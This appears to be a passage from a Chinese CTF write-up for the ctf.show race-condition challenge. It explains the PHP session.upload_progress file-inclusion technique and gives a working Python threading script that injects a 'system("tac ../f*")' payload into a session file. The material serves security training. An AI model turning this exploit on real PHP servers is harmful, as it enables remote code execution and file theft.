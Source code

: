   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rCukMxCXicnZmS1Cibnd6XfFJNloa0aWFWjVQSCibQNyjeLeqJuibFdX9q1M85EQVdZnoudYUxWc2elcDWBeW1bpkA/640?wx_fmt=png&from=appmsg "")  
  
读取flag  
  
  
**163关：条件竞争**  
  
  
参考文章：利用session.upload_progress进行文件包含和反序列化渗透 - FreeBuf网络安全行业门户  
  
如果网站的文件上传的过程是：服务器获取文件–>保存上传临时文件–>重命名移动临时文件 这样的步骤时，就可以通过不断地对文件进行上传和访问，从而使服务器还未重命名移动临时文件时，我们就利用时间差打开了文件，成功执行其中的恶意代码。  
  
再php.ini中有以下几个选项目：  
  
```
11. session.upload_progress.enabled = on
22. session.upload_progress.cleanup = on
33. session.upload_progress.prefix = "upload_progress_"
44. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
55. session.use_strict_mode=off

```  
  
  
这五个开启后，可以达到我们可以控制sessionid这个参数，并且可以创建session文件，我们就可以把恶意代码写入session文件中，在它被删除之前，通过不断发包访问来使session文件被包含。  
  
```
 1import requests
 2import threading
 3session=requests.session()
 4sess='yu22x'
 5url1="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/"
 6url2="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/upload"
 7data1={
 8    'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("tac ../f*");?>'
 9}
10file={
11    'file':'toxicant'
12}
13cookies={
14    'PHPSESSID': sess
15}
16
17def write():
18    while True:
19    r = session.post(url1,data=data1,files=file,cookies=cookies)
20def read():
21    while True:
22        r = session.get(url2)
23        if 'flag' in r.text:
24            print(r.text)
25
26threads = [threading.Thread(target=write),
27       threading.Thread(target=read)]
28for t in threads:
29    t.start()

```  
  